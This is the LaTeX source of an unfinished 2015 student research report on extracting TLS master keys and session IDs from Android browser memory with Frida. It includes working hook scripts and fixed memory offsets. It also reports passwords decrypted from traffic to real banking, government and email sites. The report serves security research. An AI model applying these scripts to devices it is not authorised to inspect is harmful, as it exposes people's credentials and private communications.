\documentclass[12pt, a4paper]{report}
\usepackage{fullpage}
\usepackage{graphicx}
\usepackage{standalone}
\usepackage{listings}
\usepackage{float}
\usepackage{url}
\usepackage[toc,page]{appendix}
\usepackage[english]{babel}
\usepackage{color}
\usepackage{tikz}
\usepackage{framed}

\usetikzlibrary{shapes,arrows}

\begin{document}

\begin{center}

\includegraphics[scale=0.6]{images/logo-uva.png}
\vspace{30pt}


\includegraphics[scale=0.2]{images/logo-sne_black-inv-flat}
\vspace{10pt}

\Large MSc. System and Network Engineering
\vspace{100pt}

\textbf{\huge SSN Project}
\vspace{10pt}

\textit{\Large "SSL session key extraction from memory on Android mobile devices"}
\vspace{80pt}

\large Stamatios Maritsas - Stamatios.Maritsas@os3.nl

\large Yadvir Singh - Yadvir.Singh@os3.nl

\large Kenneth van Rijsbergen - Kenneth.vanRijsbergen@os3.nl
\vspace{80pt}

\normalsize December, 2015
\end{center}

\abstract{ABSTRACT SESSION HAS TO BE EDITED!!}

\tableofcontents


\chapter{Introduction}

\section{TLS/SSL sessions and connections}

The TLS/SSL protocol is a widely used protocol for securing the communication over the Internet. It is often implemented in applications such as email, browsing, VoIP and secure transactions in general. Typically when a browser connects to a secured web-page a TLS/SSL is used to secure the connection. 

The way TLS/SSL sets up a secure connection is as follows: 

\begin{enumerate}
\item First by negotiating the cipher suite with the server and  authenticating the server by validating the certificate of the server with the Certificate Authority. 
\item Exchange the pre-master secret with the server using RSA key exchange. This is to establish a TLS/SSL session. 
The client will encrypt the pre-master secret with the server's public key and send it to the server. The server will then use its private key to decrypt the pre-master key.
\item Public key operations are expensive and are therefore only executed for establishing the session and authentication. For the actual transport of the data, TLS/SSL symmetric encryption is used. Both sides will generate a session-ID and a Master-key using the pre-master key. These keys will be used to encrypt the application data that will be sent over the network.
\item When a connection has been closed the session-ID and the Master-key will be destroyed.  
\end{enumerate}

So the TLS/SSL session is established using asymmetric encryption (RSA) and the transportation of the traffic is secured using symmetric encryption. This means that if the session and master key where to be extracted from the local memory, then the traffic that was encrypted by this symmetric encryption can be decrypted. 

And the protocol analyser Wireshark is capable of doing just that. When provided with the right master-key and session-id it can decrypt the TLS/SSL traffic. \cite{ref1}

\newpage
\section{The research}

The research goal was to investigate whether it was possible to extract the TLS/SSL session key from a running android process and to see whether those keys could be used to decrypt captured traffic. 

So the research question is as follows:

\begin{framed}
\noindent \textit{How can we obtain the SSL sessions keys from the process memory of an running Android application?}
\end{framed}

During the research the focus was primarily on the SSL library's that the android application uses to establish this connection.

\chapter{Related Work}
The article by Gursev Singh Kalra, titled ”Extracting RSAPrivate-
CrtKey and Certificates from an Android Process”, describes how to
dump X.509 certificates and construct a RSA private key (RSAPrivate-
CrtKey) from the Android application memory using Eclipse Memory
Analyzer Tool (MAT) and Java code. This paper gave us the indication that there also might be possibilities to extract the keys from a running
process.\cite{ref1}
\newline
\newline
Also the paper by Sally Vandeven from the SANS Institute was related to this paper. Titled SSL/TLS: What's Under the Hood, it describes how a TLS session is established, how pre-master secrets/master secrets of desktop browsers can be captured and how those captured keys can be used to decrypt captured traffic. We used the step-by-step instruction that was added to the paper on how to use Wireshark to decrypt captured traffic.\cite{ref2}

\chapter{Approach}
\section{Dynamic code instrumentation}

A dynamic code instrumentation tool is used to monitor, debug and log extensive information about the execution of an application. It is often used for software engineering for debugging. A dynamic code instrumentation tool will "hook" into a process and "trace" certain function calls and can output or alter certain variables of the process memory while the application is running.

Using this kind of tooling, we wanted to extract the session-ID and the master-key out of the process memory. 

\subsection{Frida}

The instrumentation tool we used was Frida. Frida is an open source instrumentation tool that injects javascript (using Google's V8 engine) into the process space of an application. Frida can be executed from the command line but can also be controlled by using bindings (QML, Python, .NET, Node.js). These bindings makes Frida scriptable. 

To use Frida on android, a "frida server" has to be running on the phone. This is simply done by pushing the executable to the phone and execute it through the Android Debugger shell as a linux process. This frida-server will then take commands and attaches to running android processes.

Initially we used the CLI of frida to find functions that would return the value's that we wanted. When we found the right function (SS\_CTX\_add\_session) we’ve created an python script so the results could be more easily parsed. We used Python since this API offered the most documentation. 

The result of this was a single script that attaches the process, traces the desired function and prints out the desired values to a certain format. The script contains the javascript code that frida executes in the process that it hooks.

The final script can be found at Appendix A1.
\clearpage

\section{Exploring OpenSSL}
The stock android browser uses OpenSSL. This libary is opensourced and can be found on GitHub [ccc]. To power of Frida allows us to search for functions that are called with either the master-key or session-ID as its parameters or functions that return these values. The search functionality of Github allows to search on keywords such as \texttt{master-key} and \texttt{master\_key}. The keyword \texttt{master\_key} turned out to be used by functions as one of their input arguments including the following functions:

\begin{lstlisting}[frame=single, breaklines=true]
EVP_DigestUpdate(s1, s->session->master_key,s->session->master_key_length);
\end{lstlisting}

\begin{lstlisting}[frame=single, breaklines=true]
OPENSSL_cleanse(ss->master_key, sizeof ss->master_key);
\end{lstlisting}

The \texttt{EVP\_DigestUpdate} functions accepts the master-key as its second argument and the length of the key as its last argument. The \texttt{OPENSSL\_cleanse} can be found across the library and is called multiple times to clean data. In the call depicted above, it accepts (a pointer to) the master key and accepts a size parameter. 

When using Frida, the \texttt{EVP\_DigestUpdate} update function is not traceable. However the \texttt{OPENSSL\_cleanse} is traceable. Due to the frequent call to this function you are not able to just trace this function without some filtering. The size parameter can help hereby as the master-key length is fixed at 48 bytes. This allows us to filter function calls to the \texttt{OPENSSL\_cleanse} function where the second parameter equals 48. Test however show that there is still a lot of garbage after filtering. This is due to cleaning of data chunks that also have the same size or the removal of old sessions from which the master key is to cleaned. 


\noindent The \texttt{OPENSSL\_cleanse} function with the master-key as parameter is called inside the following function:

\begin{lstlisting}[frame=single, breaklines=true]
void SSL_SESSION_free(SSL_SESSION *ss)
\end{lstlisting}

This function is responsible for removing the session from memory. As its parameter, a pointer to session is given. Besides the \texttt{OPENSSL\_cleanse} function, another interesting function is called within \texttt{SSL\_SESSION\_free}:
\\
\begin{lstlisting}[frame=single, breaklines=true]
OPENSSL_cleanse(ss->session_id, sizeof ss->session_id);
\end{lstlisting}

This functions removes the session-ID and the same filtering trick as with the master-key size can be applied (filtering on 32 bytes instead of 48). This however also gives a polluted result.
\newline
\newline
\noindent Another way to extract the master-key and session-ID is to look at the session object (\texttt{*ss}) which is passed as an argument to the \texttt{SSL\_SESSION\_free} function. This session object contains all the information about the session among which the master-key and session-ID. Using Frida it is possible to retrieve the memory location of the session object as the \texttt{SSL\_SESSION\_free} function is called. The same holds for the function calls to \texttt{OPENSSL\_cleanse} where the address of \texttt{ss->session\_id} and \texttt{ss->master\_key} can be retrieved. When comparing the memory locations, the following offsets hold true:

\tikzstyle{arrow} = [thick,->,>=stealth]
\tikzstyle{session} = [rectangle, rounded corners, minimum width=4cm, minimum height=1cm,text centered, draw=black, fill=green!30]
\tikzstyle{key} = [rectangle, rounded corners, minimum width=3cm, minimum height=1cm,text centered, draw=black, fill=orange!30]
\tikzstyle{hi} = [rectangle, rounded corners, minimum width=3cm, minimum height=1cm,text centered, draw=black, fill=blue!25]

\begin{figure}[!h]
\centering
\begin{tikzpicture}[node distance=3cm]

\node (sessionObject) [session] {SSL\_SESSION};
\node (masterKey) [key,below of=sessionObject,xshift=-0.5cm, left] {master\_key};
\node (sessionID) [hi,below of=sessionObject,xshift=0.5cm, right] {session\_id};


\draw [arrow] (sessionObject) -- node[anchor=east] {+20} (masterKey);
\draw [arrow] (sessionObject) -- node[anchor=west] {+72} (sessionID);
\end{tikzpicture}
\caption{Master-key and session-ID offset.}
\end{figure}
\noindent With these offset it is possible to extract the master-key and session-ID from the session object. This also allows to trace functions in which the session object is an argument parameter. 
\newline
\newline
One of the function that is called on the intialization of a HTTPS connection is:
\begin{lstlisting}[frame=single, breaklines=true]
SSL_CTX_add_session(SSL_CTX *s, SSL_SESSION *c)
\end{lstlisting}
The second argument that is accepted by the \texttt{SSL\_CTX\_add\_session} function is the session object (*c). To extract the master key from this function, the memory location of the session object needs to be incremented by 20. The newly computed address now points to the memory location of the master key from which the first 48 bytes need to be read. This raw data needs to undergo some processing before the master-key can be seen, see appendix for the script used. The same procedure can be repeated to extract the session-ID. The only difference is the offset. 


\chapter{Experiments}
\section{Setup}

Deciding that our approach to the project would actually be the dynamic code instrumentation using particularly Frida, we had to set up an experimental environment for all our tests. Briefly speaking, the main components of this environment were a desktop workstation and an Android smart phone. Let us now see, in a more extend way, and all the services that were setted up in each of these components and helped us both gather important information and draw a conclusion.    

\subsection{OpenSSL HTTPS debug server}

First of all, we had to set up a simple \texttt{OpenSSL HTTPS server}, which actually helped us to verify if the combination of master-key and session-ID that we were finding, while tracing several OpenSSL library functions were matching with the one that debug server had as output on the browser.

In essence, we have been through the following procedure:

\begin{enumerate}
\item We needed to create two certificates, which will be used by the \texttt{OpenSSL s\_server} command:
\begin{lstlisting}[frame=single, breaklines=true]
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out
cert.pem -days 365 -nodes	
\end{lstlisting}	

\item Starting the \texttt{OpenSSL s\_server}:
\begin{lstlisting}[frame=single, breaklines=true]
openssl s_server -key key.pem -cert cert.pem -accept 44330
-www -no_ticket
\end{lstlisting}

\item Accessing the \texttt{s\_server} via built-in Android smart phone's browser:
\begin{lstlisting}[frame=single, breaklines=true]
https://145.100.102.106:44330
\end{lstlisting}
IP used \texttt{145.100.102.106} represents the IP of desktop workstation, and \texttt{Port:44330} is the default port that we want our debug server to operate on.  

\end{enumerate}

\subsection{Traffic capture}

In this subsection, we are going to explain the two applications, which helped us in the analysis of TLS/SSL network packets. Due to the fact that the Android smartphone was being always connected with a mini-USB cable to the desktop workstation, we were not able to capture in some way the HTTPS traffic that was it being generated while browsing. As a solution to that problem, we decided, first of all, to use a proxy server, in order to be able to capture the desired traffic (SSL/TLS) on specified proxy server's port and secondly having a Wireshark filter, which would monitor the desired traffic on that server's port. 

\subsubsection{Proxy server}

As a proxy server, we used Tinyproxy, which is a light-weight HTTP/HTTPS proxy daemon for POSIX operating systems. It only requires a minimal POSIX environment to build and operate and it can use additional libraries to add functionality. Designed from the ground up to be fast and yet small, it is a very convenient solution for use cases such as embedded deployments where a full featured HTTP proxy is required, but the system resources for a larger proxy are unavailable.

\begin{enumerate}
\item Installation \\
In order to install Tinyproxy we did the following:
\begin{lstlisting}[frame=single, breaklines=true]
sudo apt-get install tinyproxy			
\end{lstlisting}	

\item Configuration \\
Inside its configuration file, which is located to \texttt{/etc/tinyproxy.conf} we needed to add the entry:
\begin{lstlisting}[frame=single, breaklines=true]
Allow 145.100.102.66/27			
\end{lstlisting}		
which was the IP that the Android smart phone was getting, while is 			was being connected to our SNE Lab WiFi (always the same). The \texttt{Allow} tag helps the user easily customize the authorization controls. 

\item Start/Stop service \\
Restarting Tinyproxy server right after every change inside its configuration file using the following pair of commands:
\begin{lstlisting}[frame=single, breaklines=true]
sudo /etc/init.d/tinyproxy stop
sudo /etc/init.d/tinyproxy start			
\end{lstlisting}

\item Debugging \\
In order to be able to check smart phone's connection on the proxy server we were viewing Tinyproxy's log file using the following command (as a superuser):
\begin{lstlisting}[frame=single, breaklines=true]
tail -f /var/log/tinyproxy/tinyproxy.log
\end{lstlisting}
\end{enumerate}

Finally, using the following command we simply confirmed that eventually Tinyproxy was up and running at \texttt{Port:8888}, which is its default:

\begin{lstlisting}[frame=single, breaklines=true]
netstat -ntulpn | grep :8888
tcp    0   0 0.0.0.0:8888    0.0.0.0:*    LISTEN  3638/tinyproxy
\end{lstlisting}

\subsubsection{Wireshark}

As we mention above, using Wireshark we were able to monitor all the traffic  that been through Tinyproxy's server \texttt{Port 8888}. We were interested only for the TLS/SSL traffic that passing by on that specific port, so we created a filter on Wireshark to make our testing work easier. The filter's string was \texttt{tcp.port==8888 \&\& ssl}. We should also say that while editing Wireshark's preferences about HTTP protocol we were able to add and \texttt{Port:44330} as an SSL port in order to monitor SSL traffic on that port too.

Another capability of Wireshark that we took advantage of it was that it can decrypt an SSL session, using simply as a source only a file with the correct combination of \texttt{RSA Session-ID} and the \texttt{Master-Key}. The default format of such a file is as follows:
\begin{lstlisting}[frame=single, breaklines=true]
RSA Session-ID:<value> Master-Key:<value>		
\end{lstlisting}

\subsection{Desktop/Smart phone Setup}

Let us now describe which service is running on which device. Firstly, we should say that the already mentioned tools, such as OpenSSL HTTPS debug server, Tinyproxy server and Wireshark they are all installed on desktop workstation from which we deploy the tests and make the capturing.

In addition, another service, which is of viral importance for the scope of this project is the \textbf{Frida} server. That service has to be installed in \textbf{both} desktop workstation \textbf{and} our experimental smart phone.

\begin{table}[h]
\centering
    \begin{tabular}{ | l | l | p{5cm} |}
    \hline
    \textbf{Deployed service} & \textbf{Hosting device} \\ \hline
    OpenSSL HTTPS debug server & Desktop \\ \hline 
    Tinyproxy server & Desktop \\ \hline
    Wireshark & Desktop \\ \hline
    Frida-Server & Desktop \& Smart-phone \\ \hline
    \end{tabular}
    \caption{An association between deployed services and hosting devices.}
\end{table}

\begin{enumerate}
\item Installation on desktop workstation \\
In order to be able to use Frida's functions tracing features we had to install it first via PyPI (Python Package Index). At the terminal prompt, we simply run the following command to install Frida:
\begin{lstlisting}[frame=single, breaklines=true]
sudo easy_install frida
\end{lstlisting}
In this way, all of Frida’s PyPI dependencies are automatically installed.

\item Installation on Android smart phone \\
Firstly, we needed to have installed on our desktop machine the \texttt{adb android tool}. Android Debug Bridge (ADB) is a tool that allows a user to send a wide array of terminal commands —including but not limited to basic Linux shell commands, plus some specialty developer commands— to a phone at just about any time (as long as the user have debugging enabled on the phone). ADB is often used in conjunction with rooting or modifying a phone, like in our case.
Secondly, we had to download the latest \texttt{frida-server} for Android and get it running on our experimental smart phone:
\begin{lstlisting}[frame=single, breaklines=true]
curl -O https://build.frida.re/frida/android/arm/bin/
frida-server
adb push frida-server /data/local/tmp/
adb shell "chmod 755 /data/local/tmp/frida-server"
adb shell "/data/local/tmp/frida-server &"
\end{lstlisting}

\end{enumerate}   

\begin{figure}[h]
  
\includegraphics[width=\linewidth]{images/diagram.png}
  \caption{An overview of experimental environment.}
  %%\label{fig:boat1}
\end{figure}

\clearpage

\section{Results}



\section{Debug Server Decryption}

The first experiment was conducted on the OpenSSL debug server to confirm that the extracted master-key and session-ID were indeed the correct values. The conformation took place by looking at the returned page from the server to the phone which displays the session-ID and master-key. 


%The handshake includes multiple  \textit{server hello} packets from which the session-ID can be extracted. Using the session id  

\subsection{Result}

Using the the python script (see appendix) we were able to extract the correct master-key and session-ID. Using the found value pair we where also able to decode the captured traffic using Wireshark (see figure 4.2).


\begin{figure}[h]
\centering
  
\includegraphics[scale=0.5]{images/debug.png}
  \caption{Part of the decrypted SSL stream from the debug server that shows the session-ID and Master-Key.}
  %%\label{fig:boat1}
\end{figure}


\clearpage
\section{Other websites}

After successfully decrypting traffic to the the OpenSSL debug server, we also tried the same method on diffrent public websites (See table 4.2). 


\begin{table}[h]
\begin{tabular}{ |l|p{5cm}|p{5cm}| } 
 \hline
 Website & Cipher & Result \\ \hline 
 OpenSSL debug server & TLS\_ECDHE\_RSA\_WITH \_AES\_256\_CBC\_SHA & Full decryption \\ \hline
 
 https://bb.vu.nl & TLS\_RSA\_WITH\_RC4\_128 \_MD5 & HTTP headers + Password \\ \hline
 
 https://mijn.ing.nl & TLS\_ECDHE\_RSA \_WITH\_AES\_128\_CBC\_SHA & HTTP headers + Password \\ \hline

 https://digid.nl/inloggen & TLS\_RSA\_WITH \_AES\_128\_CBC\_SHA & Full decryption + Password \\ \hline

 https://hotmail.com & TLS\_ECDHE\_RSA \_WITH\_AES\_256\_CBC\_SHA & Full decryption + Password \\ \hline

 https://duo.nl & TLS\_RSA\_WITH\_AES \_128\_CBC\_SHA & Full decryption \\ \hline
 
 https://os3.nl & TLS\_ECDHE\_RSA\_WITH \_AES\_128\_CBC\_SHA & Not able to decrypt \\ \hline

\end{tabular}

\caption{Table of tested websites and their decryption results.}
\end{table}


The first public website that was tested was \textit{https://bb.vu.nl}. With the acquired session-ID and master-key it was possible to decrypt the HTTP headers which included the password and user-name on a log in attempt. The actual page contents were not decryptable. The same holds for the banking website \textit{ https://mijn.ing.nl}.

The third website, \textit{https://digid.nl/inloggen} was fully decryptable and the password could be recovered from the HTTP headers. We noticed that when you connect to this website, it will send multiple \textit{server hello} packets that contain the same session-ID but the master-key differs on each packet. There was no single value pair with which we we able to decrypt the entire page, but rather some of the master-key enabled us to decrypted different parts of the web page.  

Both \textit{https://hotmail.com} and \textit{https://duo.nl} were decryptable using a single master-key and session-ID. In the case of \textit{https://hotmail.com}, the email adress and password could be extracted from the HTTP header. 

The last website website we tested was \textit{https://os3.nl}, the educations web page. Although we found several pairs of session-IDs that where visable in the \textit{server hello} packets, none of the corrosponding master-keys were able to decrypt the traffic. 







\chapter{Conclusion}

\chapter{Attack Limitations \& Future work}


\section{Attack Limitations}
The use of Frida puts some constrains on the attack possibilities. First, the Android phone needs to be rooted. The frida-server is not able to inject itself unless running as root. Secondly, Frida's documentation is scarce and a lot of trial and error is involved. Also, Frida was not able to trace all functions of the OpenSSL library and the error returned cannot be used to find the specific cause.  
\newline
\newline
The second limitation is the ability to capture network traffic. In the test-setup we used a proxy server and we explicitly configured the phone to route all its traffic through that proxy server. In the real-world case, an attacker would need to somehow capture the traffic using ARP spoofing for example. When not on the same network as the victim the problem of capturing data becomes even harder. 
\newline
\newline
The third limiting factor is the fact that the Android phone needs to be physically connected to a computer (the computer needs to run Android Debug Bridge (adb)). Although posts on the Github repository indicate that it is possible to attach to the frida-server over ssh, it is not yet been documented.   


\section{Future work}

As future work research can be done on the use of Frida wireless. Although, there have been forum postings about remote connection over SSH, that is not officially documented and it is not an official feature.
\newline
\newline
The second improvement could be the use of Frida without root access. Cedric Van Bockhaven mentioned that: "By decompiling, injecting a shared object, and then repackaging." you are able to use Frida without root access.

\chapter{Contribution} 

\bibliographystyle{plain}
\bibliography{bibliography}

\begin{appendices}

\chapter{}
\section{Frida Script - JavaScript}


\definecolor{javared}{rgb}{0.6,0,0} % for strings
\definecolor{javagreen}{rgb}{0.25,0.5,0.35} % comments
\definecolor{javapurple}{rgb}{0.5,0,0.35} % keywords
\definecolor{javadocblue}{rgb}{0.25,0.35,0.75} % javadoc
 
\lstset{language=Java,
basicstyle=\ttfamily,
keywordstyle=\color{javapurple}\bfseries,
stringstyle=\color{javared},
commentstyle=\color{javagreen},
morecomment=[s][\color{javadocblue}]{/**}{*/},
tabsize=2,
showspaces=false,
showstringspaces=false}

\begin{lstlisting}[frame=single, breaklines=true]
/*
 * Auto-generated by Frida. Please modify to match the signature of SSL_CTX_add_session.
 * This stub is currently auto-generated from manpages when available.
 *
 * For full API reference, see: http://www.frida.re/docs/javascript-api/
 */

{
    /**
     * Called synchronously when about to call SSL_CTX_add_session.
     *
     * @this {object} - Object allowing you to store state for use in onLeave.
     * @param {function} log - Call this function with a string to be presented to the user.
     * @param {array} args - Function arguments represented as an array of NativePointer objects.
     * For example use Memory.readUtf8String(args[0]) if the first argument is a pointer to a C string encoded as UTF-8.
     * It is also possible to modify arguments by assigning a NativePointer object to an element of this array.
     * @param {object} state - Object allowing you to keep state across function calls.
     * Only one JavaScript function will execute at a time, so do not worry about race-conditions.
     * However, do not use this to store function arguments across onEnter/onLeave, but instead
     * use "this" which is an object for keeping state local to an invocation.
     */
    onEnter(log, args, state) {
        log("SSL_CTX_add_session(" + "" + ")");

		a = args[1].toInt32()
		log(a)
		b = a + 20


		c = new NativePointer(b)

		key = Memory.readByteArray(c, 48);

		//The ArrayBuffer needs to be converted to decimals. 
		tempConvert = new Uint8Array(key);
		arr = [];


		//Convert decimal to hex. 
		for(i = 0; i < 48; i++){
			arr[i] = ("0" + tempConvert[i].toString(16).toUpperCase()).substr(-2);
		}


			//Print the key
		log (arr[0] +arr[1] +arr[2] +arr[3] +arr[4] +arr[5] +arr[6]  + arr[7] +arr[8] +arr[9]+arr[10] +arr[11] +arr[12]+arr[13] +arr[14] +arr[15] +arr[16] +arr[17] +arr[18]  + arr[19] +arr[20] +arr[21]+arr[22] +arr[23] +arr[24]+arr[25] +arr[26] +arr[27] +arr[28] +arr[29] +arr[30]  + arr[31] +arr[32] +arr[33]+arr[34] +arr[35] +arr[36] +arr[37] +arr[38] +arr[39] +arr[40] +arr[41] +arr[42]  + arr[43] +arr[44] +arr[45]+arr[46] +arr[47])


		log("Session ID:")

		a = args[1].toInt32()

		b = a + 72

		c = new NativePointer(b)

		key = Memory.readByteArray(c, 32);

		//The ArrayBuffer needs to be converted to decimals. 
		tempConvert = new Uint8Array(key);
		arr = [];


		//Convert decimal to hex. 
		for(i = 0; i < 32; i++){
			arr[i] = ("0" + tempConvert[i].toString(16).toUpperCase()).substr(-2);
		}


		//Print the key
		log (arr[0] +arr[1] +arr[2] +arr[3] +arr[4] +arr[5] +arr[6]  + arr[7] +arr[8] +arr[9]+arr[10] +arr[11] +arr[12]+arr[13] +arr[14] +arr[15] +arr[16] +arr[17] +arr[18]  + arr[19] +arr[20] +arr[21]+arr[22] +arr[23] +arr[24]+arr[25] +arr[26] +arr[27] +arr[28] +arr[29] +arr[30]  + arr[31])

    },

    /**
     * Called synchronously when about to return from SSL_CTX_add_session.
     *
     * See onEnter for details.
     *
     * @this {object} - Object allowing you to access state stored in onEnter.
     * @param {function} log - Call this function with a string to be presented to the user.
     * @param {NativePointer} retval - Return value represented as a NativePointer object.
     * @param {object} state - Object allowing you to keep state across function calls.
     */
    onLeave(log, retval, state) {
    }
}
\end{lstlisting}






% Define Colors
\definecolor{eclipseBlue}{RGB}{42,0.0,255}
\definecolor{eclipseGreen}{RGB}{63,127,95}
\definecolor{eclipsePurple}{RGB}{127,0,85}
 
% Set Language
\lstset{
  basicstyle=\small\ttfamily, % Global Code Style
  captionpos=b, % Position of the Caption (t for top, b for bottom)
  extendedchars=true, % Allows 256 instead of 128 ASCII characters
  tabsize=2, % number of spaces indented when discovering a tab 
  columns=fixed, % make all characters equal width
  keepspaces=true, % does not ignore spaces to fit width, convert tabs to spaces
  showstringspaces=false, % lets spaces in strings appear as real spaces
  breaklines=true, % wrap lines if they don't fit
  frame=trbl, % draw a frame at the top, right, left and bottom of the listing
  frameround=tttt, % make the frame round at all four corners
  framesep=4pt, % quarter circle size of the round corners
  commentstyle=\color{eclipseGreen}, % style of comments
  keywordstyle=\color{eclipsePurple}, % style of keywords
  stringstyle=\color{eclipseBlue}, % style of strings
}


\section{Frida script - Python}

\begin{lstlisting}[frame=single, breaklines=true]
# frida-trace -U -i SSL_CTX_add_session com.android.browser
import frida
import sys
 
# v Insert Javascript code below v
jscode = """
/**
* Use > print session.enumerate_modules(), to view all modules that are loaded in the process
*/ 
Interceptor.attach(Module.findExportByName('libssl.so', 'SSL_CTX_add_session'), {
 
onEnter: function (args) { 	
        this.fileDescriptor = args[1].toInt32();
 
	// 
	// MASTER KEY
	// 
 
	//Extract the key
	a = args[1].toInt32()
	b = a + 20
	c = new NativePointer(b)
	key = Memory.readByteArray(c, 48);
 
	//The ArrayBuffer needs to be converted to decimals. 
	tempConvert = new Uint8Array(key);
	arr = [];
	for(i = 0; i < 48; i++){
		arr[i] = ("0" + tempConvert[i].toString(16).toUpperCase()).substr(-2);
		}
 
 
	//
	// SESSION KEY
	//
 
	//Extract the key
	a = args[1].toInt32()
	b = a + 72
	c = new NativePointer(b)
	key = Memory.readByteArray(c, 32);
 
 
	//The ArrayBuffer needs to be converted to decimals. 
	tempConvert = new Uint8Array(key);
	arr2 = [];
	for(i = 0; i < 32; i++){
		arr2[i] = ("0" + tempConvert[i].toString(16).toUpperCase()).substr(-2);
			}
 
 
	send ("RSA Session-ID:" +arr2[0] +arr2[1] +arr2[2] +arr2[3] +arr2[4] +arr2[5] +arr2[6]  + arr2[7] +arr2[8] +arr2[9]+arr2[10] +arr2[11] +arr2[12]+arr2[13] +arr2[14] +arr2[15] +arr2[16] +arr2[17] +arr2[18]  + arr2[19] +arr2[20] +arr2[21]+arr2[22] +arr2[23] +arr2[24]+arr2[25] +arr2[26] +arr2[27] +arr2[28] +arr2[29] +arr2[30]  + arr2[31] +" Master-Key:" +arr[0] +arr[1] +arr[2] +arr[3] +arr[4] +arr[5] +arr[6]  + arr[7] +arr[8] +arr[9]+arr[10] +arr[11] +arr[12]+arr[13] +arr[14] +arr[15] +arr[16] +arr[17] +arr[18]  + arr[19] +arr[20] +arr[21]+arr[22] +arr[23] +arr[24]+arr[25] +arr[26] +arr[27] +arr[28] +arr[29] +arr[30]  + arr[31] +arr[32] +arr[33]+arr[34] +arr[35] +arr[36] +arr[37] +arr[38] +arr[39] +arr[40] +arr[41] +arr[42]  + arr[43] +arr[44] +arr[45]+arr[46] +arr[47])
	send (" ")
},
 
onLeave(log, retval, state) {
// nothing todo here
}
 
});
"""
# ^ Insert Javascript code above ^
 
 
# console.log() vs send() in the Javascript
## you can use console.log() to output directly to the console
## use use send() which can be parsed with the on_message() method in the python script 
 
# Handles incoming messages
def on_message(message, data):
    if message['type'] == 'send':
        print(message['payload'])
    elif message['type'] == 'error':
        print(message['stack'])
 
 
 
print "\nAttached Devices:"
print "----------------------"
print frida.get_device_manager().enumerate_devices()
 
print "\nAttaching process:"
print "----------------------"
# Attach the process
# frida.get_device_manager().enumerate_devices() [device id].atach(PID/app name)
session = frida.get_device_manager().enumerate_devices() [2].attach("com.android.browser")
print frida.get_device_manager().enumerate_devices() [2].attach("com.android.browser")
 
print "\nPossible key pairs:"
print "----------------------\n"
 
# Load script
script = session.create_script(jscode)
script.on('message', on_message)
script.load()
sys.stdin.read()
 
 
 
# Sources used for this script:
#
# https://books.google.nl/books?id=UgVhBgAAQBAJ&pg=PA110&lpg=PA110&dq=frida+python+api&source=bl&ots=SWy8q9e9PU&sig=cSHShKFcICRZVuFdMwAMG0qmyHo&hl=nl&sa=X&ved=0ahUKEwjczvKdkMrJAhUEDw8KHbIkDmYQ6AEIWTAH#v=onepage&q=frida%20python%20api&f=false
# https://github.com/frida/frida-python/blob/ee890dcb4393507f4b4bfe54a8e67ef49640f9f7/src/frida/core.py
# http://blog.mdsec.co.uk/2015/04/instrumenting-android-applications-with.html


\end{lstlisting}




\end{appendices}
\end{document}